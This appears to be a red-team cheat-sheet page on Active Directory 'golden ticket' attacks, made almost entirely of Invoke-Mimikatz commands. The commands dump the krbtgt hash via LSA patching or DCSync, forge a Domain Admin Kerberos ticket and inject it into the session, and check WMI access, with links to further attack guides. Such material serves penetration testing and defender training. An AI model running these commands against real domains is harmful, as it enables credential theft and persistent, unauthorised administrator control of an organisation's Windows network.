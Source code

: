 # 🔥 Golden tickets

### **ump hashes - Get the krbtgt hash**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

### **Make golden ticket**

Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process To get the SID use `Get-DomainSID` from powerview

{% code overflow="wrap" %}
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

### **Use the DCSync feature for getting krbtgt hash. Execute with DA privileges**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

### **Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### Read All information about Golden Tickets - Theory and Practice

<table data-card-size="large" data-view="cards" data-full-width="true"><thead><tr><th></th><th></th><th></th><th data-hidden data-card-target data-type="content-ref"></th><th data-hidden data-card-cover data-type="files"></th></tr></thead><tbody><tr><td>Commands: <a href="https://gitbook.ad-attacks.com/domain-persistence/golden-ticket">https://gitbook.ad-attacks.com/domain-persistence/golden-ticket</a></td><td></td><td></td><td><a href="https://gitbook.ad-attacks.com/domain-persistence/golden-ticket">https://gitbook.ad-attacks.com/domain-persistence/golden-ticket</a></td><td><a href="../.gitbook/assets/Golden Tickets.png">Golden Tickets.png</a></td></tr><tr><td>All About Active Directory Hacking</td><td><a href="https://ad-attacks.com/golden-ticket-attack-explained/">Golden Tickets Theory</a></td><td></td><td><a href="https://ad-attacks.com/">https://ad-attacks.com/</a></td><td><a href="../.gitbook/assets/Homepage.png">Homepage.png</a></td></tr></tbody></table>

### Sources

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets" %}
